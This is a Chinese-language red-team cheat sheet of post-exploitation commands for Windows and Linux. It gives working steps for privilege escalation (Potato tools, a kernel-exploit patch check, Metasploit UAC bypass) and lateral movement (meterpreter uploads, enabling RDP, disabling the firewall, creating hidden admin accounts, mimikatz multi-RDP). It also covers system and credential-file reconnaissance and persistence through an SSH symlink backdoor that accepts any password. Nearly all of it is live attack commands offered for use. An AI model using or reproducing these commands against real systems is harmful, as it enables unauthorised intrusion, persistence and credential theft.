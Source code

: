 #  信息收集
## windows

```shell
## 提权
JuicyPotato
SweetPotato
echo 其他漏洞见 z02
## 横向
meter> upload /root/fscan64.exe # 1.ipconfig 查看网段, # 2.arp -a # 2.1 route print # 3. fscan扫描 横向移动
meterpreter > run post/windows/manage/enable_rdp # 开 rdp
meterpreter > run getgui -e                      # 开启远程桌面
meterpreter > run getgui -u xiaowei -p 123456    # 创建用户
### [『红蓝对抗』RDP 多开小技巧 | 远程桌面](https://mp.weixin.qq.com/s/ji7YpWe1OyyhSlDOYydzWw)
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1                              # 开启3389远程桌面
netsh advfirewall set allprofiles state off 
netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes                                 # M2: 放行3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow # M1: 放行3389

# 远程桌面
proxychains rdesktop 192.168.52.141
rdesktop -u yourname -p password -g 1024x720 192.168.0.2
remmina # 可配代理 见 90_tools.md

net config Workstation # (当前计算机名，全名，用户名，系统版本，工作站域，登陆域)
net localgroup administrators
net view # 查看局域网内所有计算机
使用CS扩展的Ladon插件探测内网存活主机情况
Ladon 192.168.52.0/24 OnlinePC
net view /domain 查看域情况
CS和msf联动

# 内网主机信息收集
## * everything文件搜索（正则表达式提高效率）
## * 浏览器保存的密码/微信/QQ文件夹/回收站/共享盘/邮件软件/协同软件
## * 远程软件保存的远程连接 mstsc/内网通/向日葵/todesk等

```
### 多用户登录远程桌面
[RDP连接多开方法与利用思路](https://mp.weixin.qq.com/s/GCFCIwqnQUAFNED0dTVDoA)

```bash
net user admin 123456 /add
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add 2>nul

# 1. 不同用户同时登录
mimikatz.exe privilege::Debug ts::multirdp exit
# 2. 同用户同时登录 RDPWrap, 好像不好使
install.bat
rdpconf.exe  # 取消 Single Session
## 2.1 win10+win11 http://github.com/anhkgg/SuperRDP
```


## linux 
[Linux内网渗透基础篇](https://mp.weixin.qq.com/s/MV4bTIW7YKiBgS6r03_FFw)
```shell
get_info_01_linux.sh
meterpreter > getSystem "whoami"

uname -a    # 获取所有版本信息
uname -m    # 获取Linux内核架构
cat /proc/version    # 获取内核信息 
cat /etc/*-release   # 发布信息
cat /etc/issue    # 发布信息
hostname    # 获取主机名
cat /etc/passwd    # 列出系统所有用户 
cat /etc/group    # 列出系统所有组 
w    # 查看目前登录的用户
whoami    # 查看当前用户 
id    # 查看当前用户信息 
sudo -l    # 列出目前用户可执行与无法执行的指令 
ps aux    # 查看进程信息 
ls -la /etc/cron*    # 查看计划任务
ls -la /tmp
ifconfig -a    # 列出网络接口信息 
cat /etc/network/interfaces    # 列出网络接口信息 
arp -a    # 查看系统arp表 
route    # 打印路由信息
netstat -anplt    # 打印本地端口开放信息 
iptables -L    # 列出iptable的配置规则
```

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”
### 权限维持

ssh软连接后门 需root执行后门命令，任意密码登录
```shell
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oport=12345
```

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973

快速查找exp

systeminfo>micropoor.txt&(for %i in (   KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a  micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits

## ssh 相关
1.密钥篡改 authorized_keys 
2.重装覆盖 openssh-backdoor https://github.com/Psmths/openssh-backdoor

### bypassuac

1. msf
```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```
2. CVE编号:CVE-2019-1388,windwos证书对话框特权提升漏洞。补丁号KB4524235 KB4525233
